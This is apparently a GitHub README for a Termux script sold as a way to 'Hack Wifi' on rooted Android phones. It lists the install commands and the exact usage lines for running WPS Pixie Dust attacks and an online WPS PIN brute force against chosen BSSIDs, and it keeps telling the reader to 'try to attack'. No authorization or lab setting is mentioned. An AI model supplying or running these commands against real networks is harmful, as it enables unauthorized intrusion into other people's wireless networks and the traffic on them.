 
<h1 align="center">🆉🅰🅷🅸🅳 🅷🅰🆂🅰🅽</h1>
<h4 align="center">Hack Wifi Using Termux! (Requires Rooted Device)</h4>

### Installation :

```bash
• pkg install
• pkg update
• pkg install python
• pkg install python2
• pkg install root-repo -y
• pkg install git tsu python wpa-supplicant pixiewps iw -y
• git clone https://github.com/zahidnu0/iamzahidbd.git 
• cd iamzahidbd 
• pip3 install -r requirements.txt
• chmod +x iamzahidbd.py
• sudo python iamzahidbd.py -i wlan0 -K

* For Run This Tools *
• cd iamzahidbd
• sudo python iamzahidbd.py -i wlan0 -K
```

**IF FAILED PLEASE TURN OFF YOUR LOCATION & WIFI THEN TRY TO ATTACK.**

#### Help : `sudo python iamzahidbd.py --help`
#### Example : `sudo python iamzahidbd.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn Off your Location.**
+ **Some devices this tool not work Ex: (MTK Devices) Please use (Custom Kernel) then solve your problem.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python iamzahidbd.py -i wlan0 -K`
-  Start Pixie Dust attack on a specified BSSID:
`sudo python iamzahidbd.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python iamzahidbd.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
🆉🅰🅷🅸🅳 🅷🅰🆂🅰🅽 (License)

Copyright (c) 2024 🆉🅰🅷🅸🅳 🅷🅰🆂🅰🅽

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF YOUR LOCATION & WIFI THEN TRY TO ATTACK.**

Repo : <a href="https://github.com/zahidnu0/iamzahidbd"> Click Here </a>

##### Modify History : => 🆉🅰🅷🅸🅳 🅷🅰🆂🅰🅽
<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://fb.com/Iam.Zahid0" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="zahid" height="30" width="40" /></a>
</div>
